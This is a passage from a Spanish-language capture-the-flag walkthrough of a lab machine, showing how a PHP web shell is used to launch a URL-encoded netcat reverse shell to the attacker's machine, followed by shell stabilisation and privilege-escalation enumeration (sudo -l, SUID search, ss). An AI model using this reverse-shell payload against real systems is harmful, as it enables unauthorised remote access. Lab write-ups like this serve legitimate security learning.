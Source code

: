 Más abajo elegimos la shell que queremos crear y lo codificamos como URL

![](/assets/img/posts/arroutada/urlencode.png)

Ponemos el puerto elegido a la escucha, en mi caso es el 4444.

Y mandamos la solicitud a la página en el parámetro `a=` pegamos la revshell codificada en URL seguida del `&b=pass` tal que así: 

```zsh
http://192.168.0.249/thejabasshell.php?a=nc%20192.168.0.162%204444%20-e%20%2Fbin%2Fbash&b=pass
```

Ganamos acceso al servidor web desde la revshell que lanzamos, usaremos el comando `script /dev/null -c bash` para ver el prompt en la terminal.

![](/assets/img/posts/arroutada/scriptbash.png)

Vemos desde el directorio home a un user: `drito`, vamos a intentar pivotar desde el servidor a `drito` hacemos un `sudo -l` sin obtener respuesta interesante, probamos con

```zsh
find / -perm 4000 2>/dev/null
```

>Este comando sirve para encontrar archivos con permisos SUID

Tampoco obtenemos respuesta, buscamos algún tipo de log de comandos haber si hay pistas sin éxito.

Probamos con

```zsh
ss -tlp
```

>El [comando ss](https://www.ochobitshacenunbyte.com/2020/09/01/como-se-usa-el-comando-ss-en-linux/) sirve para mostrar información sobre conexiones de red, [sockets](https://keepcoding.io/blog/que-es-un-socket/) y estadísticas de red.
>Hemos juntado los siguientes parámetros:
>-t, listamos las conexiones TCP
>-l, nos muestra únicamente los sockets que están escuchando
>-p, lista los PID de los procesos
{:.prompt-info }
